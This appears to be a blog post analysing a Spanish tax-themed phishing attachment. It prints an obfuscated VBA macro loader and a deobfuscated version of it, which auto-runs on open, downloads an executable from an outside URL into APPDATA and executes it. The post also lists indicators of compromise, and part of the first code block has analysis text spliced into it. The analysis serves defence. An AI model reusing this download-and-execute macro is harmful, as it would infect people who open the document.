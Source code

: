 ```yaml
---
layout: post
title: Malware Analysis SAT_Documento778288
---
```


Today I want to post a real malware analysis which I've done in my actual company. A project manager contacted with me and sent me a suspicious email which seems to be a tipical phising attack. For people who doesn't speak spanish, the body of the email blame us of tax evasion:

![evidence1]({{ site.baseurl }}/images/mlwr_satdocumento01.png)

In the email, the sender appended a doc file attachment with the name "SAT_Documento778288.doc". At first glance, VirusTotal report to us a Macro-based malware, probably written in VBA (Visual Basic for Application). It is interesting to observe how any of the most important AV solutions don't detect the malicious code:

![evidence2]({{ site.baseurl }}/images/mlwr_satdocumento02.png)

Analyzing the code, you can see how effectively it is a document that hides a macro written in VBA.
```
Dim JKlWp6gFNDD5rvrAaEWp8W27 As String

Private Declare Function URLDownloadToFileW Lib "urlmon.dll" (ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU2 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU3 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU4 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU5 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU6 As Long) As Long

Private Declare Function ShellExecuteW Lib "shell32.dll" (ByVal M4V4Jbr3 As Long, ByVal JR1QH1m3B3wHSV1D4y7rR As Long, ByVal ocMZjvRbAhK3jMRay8ku5p83pjT0En As Long, ByVal x0UTO3sI0mjsE As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU0 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU1 As Long) As Long

Dim izg2Z6fBgnmpW5474FUgMYhoGVu As String

Sub Auto_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub


Private Function wT2uFiYs90CvHobTzNKS8krV4I2JU() As Variant

''''''

izg2Z6fBgnmpW5474FUgMYhoGVu = "httYG3V6R2l0eKchtIFTVQ5985ps://site.sitYG3V6R2l0eKchtIFTVQ5985ez3.com/soYG3V6R2l0eKchtIFTVQ5985und.YG3V6R2l0eKchtIFTVQ5985mp3YG3V6R2l0eKchtIFTVQ5985"

k = URLDownloadToFileW(0&, StrPtr(Replace(izg2Z6fBgnmpW5474FUgMYhoGVu, "YG3V6R2l0eKchtIFTVQ5985", "")), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), 0&, 0&)

wT2uFiYs90CvHobTzNKS8krV4I2JU7
''''''

End Function

Private Function m8g3C1uuV5DsKrkV1kA2PzVP0() As Long

JKlWp6gFNDD5rvrAaEWp8W27 = Environ("ap" & "pdata") & "\ggg1" & "IOLHnI060NyHiu.exe"

Call wT2uFiYs90CvHobTzNKS8krV4I2JU

End Function

Sub AutoOpen()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub

Private Sub wT2uFiYs90CvHobTzNKS8krV4I2JU7()
Application.DisplayAlerts = False

ShellExecuteW 0&, StrPtr("Open"), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), StrPtr(""), StrPtr(""), 1

Application.Quit
End Sub1. The analyzed malware is a "loader" that downloads to the infected computer the final malware.
2. Judging from the code, the file can be represented depending on the computer as a Microsoft Word document or as an Excel sheet.
3. The malware has autorun options so that in theory the victim would become infected by opening it.
4. Once opened, the first malware action

Sub Workbook_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub
```
Although it has some techniques of obfuscation implemented, its evasion was simple and in the majority of cases they refer to substitutions of long strings. For example, as it's shown before, the string "YG3V6R2l0eKchtIFTVQ5985" is replaced with "" (nothing). At the end of the analysis, the following could be determined:

1. The analyzed malware is a "loader" that downloads to the infected computer the final malware.
2. Judging from the code, the file can be represented depending on the computer as a Microsoft Word document or as an Excel sheet.
3. The malware has autorun options so that in theory the victim would become infected by opening it.
4. Once opened, the first malware action is to calculate the path where it will be stored on the computer. To do this, it uses the environment variable $ APPDATA and thus build the first part of the route adapted to each victim. Next to it you can see the first IOC, the name of the executable: ggg1IOLHnI060NyHiu.exe
5. After completing this phase, the loader attempts to download the final malware from the URL https://site.sitez3.com/sound.mp3 and store it in the path calculated in step 4. The URL is our second IOC.
6. Finally, the malware runs the binary using the Windows function "ShellExecuteW".

As the final step of the analysis I tried to download the file from the found URL but unfortunately the file was no longer available. Thus, the analysis was not complete since it has failed to execute both static and dynamic analysis of the .exe found. However, thanks to the analysis, it was possible to establish the appropriate rules in the IDS to detect possible infected computers that made calls to download the Windows executable and start cleaning processes.

The deobfuscated code that I cleaned is shown below:

```
Dim nombreEjecutable As String

Private Declare Function URLDownloadToFileW Lib "urlmon.dll" (ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU2 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU3 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU4 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU5 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU6 As Long) As Long

Private Declare Function ShellExecuteW Lib "shell32.dll" (ByVal M4V4Jbr3 As Long, ByVal JR1QH1m3B3wHSV1D4y7rR As Long, ByVal ocMZjvRbAhK3jMRay8ku5p83pjT0En As Long, ByVal x0UTO3sI0mjsE As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU0 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU1 As Long) As Long

Dim urlMalware As String

Sub Auto_Open()
Call llamada_inicio
End Sub


Private Function downloadFile() As Variant

''''''

urlMalware = "https://site.sitez3.com/sound.mp3"

k = URLDownloadToFileW(0&, StrPtr(Replace(urlMalware, "YG3V6R2l0eKchtIFTVQ5985", "")), StrPtr(nombreEjecutable), 0&, 0&)

executionShell
''''''

End Function

Private Function llamada_inicio() As Long

nombreEjecutable = Environ("appdata") & "\ggg1" & "IOLHnI060NyHiu.exe"

Call downloadFile

End Function

Sub AutoOpen()
Call llamada_inicio
End Sub

Private Sub executionShell()
Application.DisplayAlerts = False

ShellExecuteW 0&, StrPtr("Open"), StrPtr(nombreEjecutable), StrPtr(""), StrPtr(""), 1

Application.Quit
End Sub

Sub Workbook_Open()
Call llamada_inicio
End Sub
```
